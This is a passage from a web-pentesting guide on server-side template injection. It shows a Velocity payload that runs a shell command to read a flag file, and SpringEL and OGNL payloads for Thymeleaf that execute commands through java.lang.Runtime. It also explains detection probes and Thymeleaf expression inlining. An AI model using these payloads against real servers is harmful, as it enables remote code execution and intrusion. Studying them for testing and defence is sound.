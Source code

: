 ```
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```

**More information**

- In Velocity section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
 
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf)

Thymeleaf

In Thymeleaf, a common test for SSTI vulnerabilities is the expression `${7*7}`, which also applies to this template engine. For potential remote code execution, expressions like the following can be used:

- SpringEL:
 
 
 
 ```
 ${T(java.lang.Runtime).getRuntime().exec('calc')}
 ```
 
- OGNL:
 
 
 
 ```
 ${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
 ```
 

Thymeleaf requires these expressions to be placed within specific attributes. However, _expression inlining_ is supported for other template locations, using syntax like `[[...]]` or `[(...)]`. Thus, a simple SSTI test payload might look like `[[${7*7}]]`.

However, the likelihood of this payload working is generally low. Thymeleaf's default configuration doesn't support dynamic template generation; templates must be predefined. Developers would need to implement their own `TemplateResolver` to create templates from strings on-the-fly, which is uncommon.

Thymeleaf also offers _expression preprocessing_, where expressions within double underscores (`__...__`) are preprocessed. This feature can be utilized in the construction of expressions, as demonstrated in Thymeleaf's documentation:



```
#{selection.__${sel.code}__}
```
